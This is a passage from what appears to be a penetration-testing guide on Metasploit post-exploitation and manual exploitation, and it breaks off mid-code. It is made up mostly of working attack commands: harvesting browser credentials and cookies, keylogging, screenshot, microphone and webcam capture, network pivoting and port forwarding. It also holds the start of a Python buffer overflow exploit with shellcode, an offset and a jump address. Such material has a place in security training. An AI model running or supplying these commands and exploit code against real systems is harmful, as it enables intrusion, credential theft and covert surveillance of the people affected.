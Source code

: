 ```bash
run post/windows/gather/enum_shares          # Network shares
run post/multi/gather/firefox_creds          # Firefox stored credentials
run post/multi/gather/chrome_cookies         # Chrome cookies and credentials

# Keylogging and screenshot
keyscan_start                                # Start keylogger
keyscan_dump                                 # Dump captured keystrokes
keyscan_stop                                 # Stop keylogger
screenshot                                   # Take screenshot
record_mic                                   # Record from microphone
webcam_snap                                  # Take webcam photo

# Network pivoting
run autoroute -s 10.1.1.0/24               # Add route to internal network
run autoroute -p                            # Print active routes
portfwd add -l 3389 -p 3389 -r 10.1.1.100  # Port forwarding (local 3389 -> remote RDP)
portfwd list                                # List active port forwards
portfwd delete -l 3389                      # Remove port forward
```

## Integration with Manual Techniques

### **Combining Automated and Manual Exploitation**

```bash
# Workflow: Metasploit discovery → Manual exploitation → Metasploit post-exploitation

# Step 1: Use Metasploit for reconnaissance
msfconsole -x "
use auxiliary/scanner/portscan/tcp;
set RHOSTS 192.168.1.0/24;
set PORTS 1-1000;
run;
exit"

# Step 2: Manual exploitation of discovered services
cat > manual_exploit.py << 'EOF'
#!/usr/bin/env python3
import socket
import struct

def manual_buffer_overflow(target_ip, target_port):
    """Manual buffer overflow exploit"""
    
    # Shellcode generated with msfvenom
    shellcode = (
        b"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52"
        # ... (truncated for space)
    )
    
    # Exploit parameters
    offset = 1978
    jmp_esp = 0x625011af
    nop_sled = b"\x90" * 16
    
    # Build payload
    payload = b"A" * offset
    payload += struct.pack('<I', jmp_esp)
    payload += nop_sled
    payload += shellcode
    
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
```